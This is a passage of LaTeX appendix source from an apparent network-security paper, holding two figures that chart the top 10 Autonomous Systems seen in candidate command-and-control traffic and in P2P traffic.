    
\includegraphics[width=0.75\linewidth]{results/top_10_asn_c2.png}
    \caption{Top 10 Autonomous Systems based across all candidate C2 traffic.}
    \label{fig:top_10_asn_c2} 
\end{figure}

\begin{figure}[!htb]
    \centering
    
\includegraphics[width=0.75\linewidth]{results/top_10_asn_p2p.png}
    \caption{Top 10 Autonomous Systems across all P2P traffic.}
    \label{fig:top_10_asn_p2p} 
\end{figure}


\end{appendices}